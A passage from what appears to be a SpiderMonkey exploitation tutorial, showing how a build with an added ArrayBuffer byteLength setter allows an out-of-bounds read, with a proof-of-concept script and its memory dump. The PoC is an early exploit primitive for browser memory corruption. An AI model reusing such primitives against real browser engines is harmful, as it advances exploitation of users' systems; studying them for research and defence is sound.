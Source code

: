 ```
```

After compiling both versions we can find the `js` executable in both build directories in `dist/bin/`. For debugging I will use gdb with [https://hugsy.github.io/gef/](https://hugsy.github.io/gef/). Now that we have our environment setup, we can write a simple PoC that does an out-of-bounds read.

We define an ArrayBuffer “A” and use the new `byteLength` setter to put a large value there. We then create another ArrayBuffer “B” just to have an adjacent object in memory (it will be placed exactly next to the first one). Then we create a TypedArray ([https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/TypedArray](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/TypedArray)) from our ArrayBuffer. This is done so we can access the contents of the underlying binary buffer as an array.

Finally, we try to dump the contents of “A” which is only defined up to the 10th iteration (we set the size to 80 – so 10 8-byte values). However, due to our manipulated byte length, we can now print beyond that boundary and dump the memory of the adjacent object “B”.

**Poc_0x01.js**

```
// create an ArrayBuffer A and set its length to a large value
aBuf = new ArrayBuffer(80);
aBuf.byteLength = 1000;
aBuf = new BigUint64Array(aBuf)
aBuf[0] = 0x4141414141414141n
 
 
// create a second ArrayBuffer B to have an adjacent object
bBuf = new ArrayBuffer(80);
bBuf = new BigUint64Array(bBuf)
bBuf[0] = 0x4242424242424242n
 
// access A as a TypedArray out of bounds to read some metadata/data of B
for(let i=0;i<20;i++){
    console.log(`${i} ${aBuf[i].toString(16)}`)
}
```

Running the PoC shows that we can indeed access beyond the size of the ArrayBuffer and see memory that does not belong to it:

```
spidermonkey/js/src/build_DBG.OBJ/dist/bin/js -i pwn_0x01.js
0 4141414141414141
1 0
2 0
3 0
4 0
5 0
6 0
7 0
8 0
9 0
10 fffe4d4d4d4d4d4d
11 fffe4d4d4d4d4d4d
12 58dcd466700
13 5618d8518088
14 5618d8517828
15 58dcd46a160
16 50
17 fffe3ee4bd6007e0
18 fff8800000000000
19 4242424242424242
```

